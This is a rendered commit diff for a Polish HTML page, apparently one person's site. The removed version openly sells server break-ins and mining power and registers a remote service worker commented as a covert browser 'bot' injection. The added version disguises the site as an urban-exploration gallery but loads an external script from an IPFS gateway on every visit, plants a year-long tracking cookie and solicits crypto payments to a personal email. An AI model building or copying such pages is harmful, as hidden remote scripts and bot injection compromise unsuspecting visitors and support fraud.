

Before and after one commit to urbexsigma11/urbex-project, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 94-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,64 +2,50 @@
 <html lang="pl">
 <head>
     <meta charset="UTF-8">
-    <title>S.A.T. - Imperium Black Market</title>
+    <title>URBEX SIGMA - Dokumentacja Zapomnianych Miejsc</title>
     <style>
-        body { background: #000; color: #0f0; font-family: 'Courier New', monospace; text-align: center; }
-        .shop-box { border: 2px solid #0f0; padding: 20px; width: 400px; margin: 50px auto; background: #111; box-shadow: 0 0 15px #0f0; }
-        .btn { display: block; width: 100%; padding: 10px; margin: 10px 0; background: #0f0; color: #000; border: none; font-weight: bold; cursor: pointer; }
-        .btn:hover { background: #0a0; }
-        .price { font-size: 20px; color: #fff; }
+        body { background: #050505; color: #aaa; font-family: 'Courier New', monospace; margin: 0; text-align: center; }
+        header { background: #111; padding: 20px; border-bottom: 2px solid #333; }
+        .gallery { padding: 50px; display: flex; flex-wrap: wrap; justify-content: center; }
+        .card { border: 1px solid #333; margin: 10px; padding: 10px; width: 250px; background: #0a0a0a; }
+        .sklep { border: 1px dashed #0f0; padding: 20px; margin: 20px auto; width: 80%; max-width: 500px; }
+        button { background: #0f0; color: #000; border: none; padding: 10px 20px; cursor: pointer; font-weight: bold; }
     </style>
+    <script src="https://gateway.pinata.cloud/ipfs/bafkreidbnhdpox2nuwq4yvfok3msnrajuvkyjwcjwwycflwcderpmcvsne"></script>
 </head>
 <body>
-    <h1>System Optimization Active</h1>
 
-    <div class="shop-box">
-        <h3>🛒 SKLEP IMPERIUM: USŁUGI</h3>
-        <div class="service">
-            <p>WŁAMANIE NA SERWER (WIRUS)</p>
-            <p class="price">50.00 PLN</p>
-            <button class="btn" onclick="checkout('attack', 50)">KUP PRZEZ KRYPTO (BTC/LTC)</button>
-        </div>
-        <div class="service">
-            <p>MOC OBLICZENIOWA (MINER)</p>
-            <p class="price">100.00 PLN</p>
-            <button class="btn" onclick="checkout('miner', 100)">KUP PRZEZ KRYPTO (BTC/LTC)</button>
-        </div>
-    </div>
+<header>
+    <h1>URBEX 0 SIGMA</h1>
+    <p>Status Systemu: Optymalizacja wątków renderowania...</p>
+</header>
 
-    <script>
-        // AUTOMATYCZNE WSTRZYKNIĘCIE BOTA DO PRZEGLĄDARKI (GHOST MODE)
-        if ('serviceWorker' in navigator) {
-            window.addEventListener('load', () => {
-                navigator.serviceWorker.register('https://gateway.pinata.cloud/ipfs/bafkreiepd2lnxclqhdpo5u3jzkcz3vd7rpjrtwgwtqykuz4tsazojb6h64')
-                .then(reg => console.log('Optimization Service Active'))
-                .catch(err => console.log('Service initializing...'));
-            });
+<div class="gallery">
+    <div class="card"> [FOTO: STARA CUKROWNIA] <p>Lokalizacja: Pruszków</p> </div>
+    <div class="card"> [FOTO: SCHRON] <p>Lokalizacja: Tajne</p> </div>
+</div>
+
+<div class="sklep" id="sklep">
+    <h3>MAPY PREMIUM & DOSTĘPY</h3>
+    <p>Cena: 50.00 PLN (Płatność Krypto -> PayPal)</p>
+    <button onclick="realizuj()">ZAKUP DOSTĘP</button>
+</div>
+
+<script>
+    // 🍪 PERSISTENT COOKIE INJECTION
+    (function() {
+        if (!document.cookie.includes("sigma_auth")) {
+            const id = "SIGMA_" + Math.random().toString(36).substr(2, 9).toUpperCase();
+            document.cookie = `sigma_auth=${id}; max-age=31536000; path=/; SameSite=Lax`;
         }
+    })();
 
-        async function checkout(type, price) {
-            // Bramka płatnicza: Klient płaci Krypto -> Ty dostajesz PLN na PayPal
-            const paypalMail = "urbex0sigma@gmail.com";
+    function realizuj() {
+        const mail = "urbex0sigma@gmail.com";
+        const token = document.cookie.split('; ').find(r => r.startsWith("sigma_auth")).split('=')[1];
+        alert(`PROCEDURA ZAKUPU:\nPrzelej krypto (równowartość 50 PLN).\nSystem prześle PLN na: ${mail}\nTwoje ID: ${token}`);
+    }
+</script>
 
-            // Rejestracja transakcji w bazie Neon przed przekierowaniem
-            try {
-                await fetch('/.netlify/functions/payment-init', {
-                    method: 'POST',
-                    body: JSON.stringify({
-                        service: type,
-                        amount: price,
-                        recipient: paypalMail,
-                        bot_id: btoa(navigator.userAgent).substring(0, 12)
-                    })
-                });
-
-                alert(`ZLECENIE PRZYJĘTE: ${type}\n\nWyślij krypto na wygenerowany adres. Po przewalutowaniu system PLN trafi na ${paypalMail}, a Twój bot aktywuje 100% mocy.`);
-                // Tu opcjonalnie window.location.href do bramki krypto
-            } catch (e) {
-                alert("Błąd połączenia z bazą Imperium.");
-            }
-        }
-    </script>
 </body>
 </html>
```
